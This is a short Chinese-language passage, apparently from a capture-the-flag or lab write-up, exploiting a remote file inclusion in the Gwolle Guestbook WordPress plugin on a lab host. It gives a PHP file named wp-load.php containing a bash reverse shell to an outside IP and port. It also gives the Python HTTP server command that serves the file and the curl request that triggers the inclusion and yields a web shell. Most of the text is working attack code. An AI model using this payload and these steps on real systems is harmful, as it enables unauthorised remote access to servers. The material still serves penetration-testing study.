 <https://www.exploit-db.com/exploits/38861>

![](image/image_svHAZADY3f.png)

根据报告，只能远程文件包含`wp-load.php` 文件，这个只要重命名一下就可以了。

保存 wp-load.php，

```bash
<?php 
echo "hack!!!";
echo exec("bash -c 'bash -i >& /dev/tcp/10.10.16.8/2333 0>&1'");
?>
```

本地起http服务&#x20;

```bash
python2 -m SimpleHTTPServer 80
```

执行

```bash
curl 10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.8/
```

获得`www shell`

![](image/image_Pt6PnWH-Xz.png)
